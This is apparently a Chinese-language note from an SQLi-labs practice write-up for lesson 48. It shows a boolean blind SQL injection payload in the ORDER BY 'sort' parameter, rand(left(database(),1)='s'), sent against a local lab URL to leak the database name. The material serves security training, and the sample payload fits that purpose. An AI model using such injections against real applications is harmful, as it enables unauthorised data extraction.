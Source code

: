 ### Less-48：GET - Error based - Blind-Numeric- ORDER BY CLAUSE

**注入类型**

布尔盲注

**闭合方式**

id=\$id

```sql
//利用rand(true)与rand(false)结果不同，实现盲注两种状态
http://192.168.65.128/sqli-labs/Less-48/?sort=
rand(left(database(),1)='s')
```

![](file/image_2fQ8aysXSC.png)

![](file/image_gHLbVNoJs1.png)
